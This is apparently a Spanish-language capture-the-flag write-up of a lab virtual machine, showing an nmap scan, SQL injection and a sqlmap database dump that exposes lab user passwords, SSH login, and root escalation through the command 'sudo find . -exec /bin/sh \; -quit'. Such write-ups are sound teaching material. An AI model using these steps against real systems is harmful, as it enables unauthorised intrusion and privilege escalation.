







### Información General
- **IP:** 10.232.47.167
- **Hostname:**
- **Sistema Operativo:**
- **Kernel:**

---

##### Notas
-
---

# Writeup

---

## Hosts discovery (descubrimiento de hosts)



---

## Enumeración

```bash
# Nmap 7.98 scan initiated Wed Apr 22 13:29:40 2026 as: /usr/lib/nmap/nmap -p 22,80 -sCV -sS -Pn -vvv -oN nmap.txt -oX nmap.xml 10.232.47.167
Nmap scan report for 10.232.47.167
Host is up, received arp-response (0.00028s latency).
Scanned at 2026-04-22 13:29:41 -04 for 6s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 48:42:7a:cf:38:19:20:86:ea:fd:50:88:b8:64:36:46 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNisH88omWEmamx1HuZpPoFTndSD5v4+IJIYYDOFKUnOjdCGeEw4ovGjRvjUWst9Ru5o1FgknmUYU9H1FA2/wwg=
|   256 9d:3d:85:29:8d:b0:77:d8:52:c2:81:bb:e9:54:d4:21 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJEbI0M6PcaMWGl0AV0pd1nGMxU54TWqnf362HOXpBJK
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.62 (Debian)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
MAC Address: 08:00:27:EE:54:36 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 22 13:29:48 2026 -- 1 IP address (1 host up) scanned in 7.36 seconds
```

| Vector | Servicio (Puerto) | Estado  | Qué permite                          | Qué intentar        | Notas |
| ------ | ----------------- | ------- | ------------------------------------ | ------------------- | ----- |
| 1      | ssh (22)          | Abierto | Acceso autenticado a la máquina      | Buscar credenciales |       |
| 2      | http (80)         | Abierto | Gran abanico de vulnerabilidades web |                     |       |

### HTTP

Explorando la página encontré esto en `index2.php`:



Me arrojó a un panel de login donde probé con `SQLI`:





Con esto en cuenta decidí usar `sqlmap` para extraer las bases de datos:

```sql
[*] information_schema
[*] mysql
[*] Nebuchadnezzar
[*] performance_schema
[*] sion
[*] sys
```

En la base de datos `sion` encontré credenciales:

```sql
Database: sion
Table: users
[2 entries]
+----+--------------------+----------+
| id | password           | username |
+----+--------------------+----------+
| 1  | F4ckTh3F4k3H4ck3r5 | shelly   |
| 2  | cambiame08         | admin    |
+----+--------------------+----------+
```

---

## Explotación

Probé las credenciales `shelly:F4ckTh3F4k3H4ck3r5` en SSH y conseguí acceder a la máquina:



---

## Post Explotación

Al hacer un `sudo -l` encontré esto:



---

## Escalada de privilegios

La escalada es fácil, solo hay que ejecutar `sudo find . -exec /bin/sh \; -quit` y ya conseguimos una shell como root:


